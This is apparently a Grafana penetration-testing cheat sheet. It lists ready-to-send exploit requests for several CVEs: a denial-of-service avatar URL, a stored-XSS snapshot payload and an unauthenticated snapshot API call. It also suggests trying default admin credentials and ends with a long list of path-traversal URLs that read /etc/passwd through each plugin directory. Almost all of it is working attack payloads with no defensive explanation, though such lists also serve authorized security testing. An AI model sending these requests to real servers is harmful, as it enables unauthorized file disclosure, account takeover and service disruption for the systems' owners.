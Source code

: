 # Grafana
1. CVE-2020-13379 (Denial of Service)
```
<GRAFANA URL>/avatar/%7B%7Bprintf%20%22%25s%22%20%22this.Url%22%7D%7D
```
2. CVE-2020-11110 (Stored XSS)
```
POST /api/snapshots HTTP/1.1
Host: <GRAFANA URL>
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Referer: {{BaseURL}}
content-type: application/json
Connection: close

{"dashboard":{"annotations":{"list":[{"name":"Annotations & Alerts","enable":true,"iconColor":"rgba(0, 211, 255, 1)","type":"dashboard","builtIn":1,"hide":true}]},"editable":true,"gnetId":null,"graphTooltip":0,"id":null,"links":[],"panels":[],"schemaVersion":18,"snapshot":{"originalUrl":"javascript:alert('Revers3c')","timestamp":"2020-03-30T01:24:44.529Z"},"style":"dark","tags":[],"templating":{"list":[]},"time":{"from":null,"to":"2020-03-30T01:24:53.549Z","raw":{"from":"6h","to":"now"}},"timepicker":{"refresh_intervals":["5s","10s","30s","1m","5m","15m","30m","1h","2h","1d"],"time_options":["5m","15m","1h","6h","12h","24h","2d","7d","30d"]},"timezone":"","title":"Dashboard","uid":null,"version":0},"name":"Dashboard","expires":0}
```
3. CVE-2019-15043 (Grafana Unauthenticated API)
```
POST /api/snapshots HTTP/1.1
Host: <GRAFANA URL>
Connection: close
Content-Length: 235
Accept: */*
Accept-Language: en
Content-Type: application/json

{"dashboard":{"editable":false,"hideControls":true,"nav":[{"enable":false,"type":"timepicker"}],"rows": [{}],"style":"dark","tags":[],"templating":{"list":[]},"time":{},"timezone":"browser","title":"Home","version":5},"expires": 3600}
```
4. Default Credentials
```
Try to login using admin as username and password
```
5. Signup Enabled
```
<GRAFANA URL>/signup
```



/public/plugins/alertmanager/../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../etc/passwd
/public/plugins/dashboard/../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../etc/passwd
/public/plugins/grafana/../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../etc/passwd
/public/plugins/mixed/../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../etc/passwd
/public/plugins/alertGroups/../../../../../../../../etc/passwd
/public/plugins/alertlist/../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../etc/passwd
/public/plugins/canvas/../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../etc/passwd
/public/plugins/debug/../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../etc/passwd
/public/plugins/live/../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../etc/passwd
/public/plugins/xychart/../../../../../../../../etc/passwd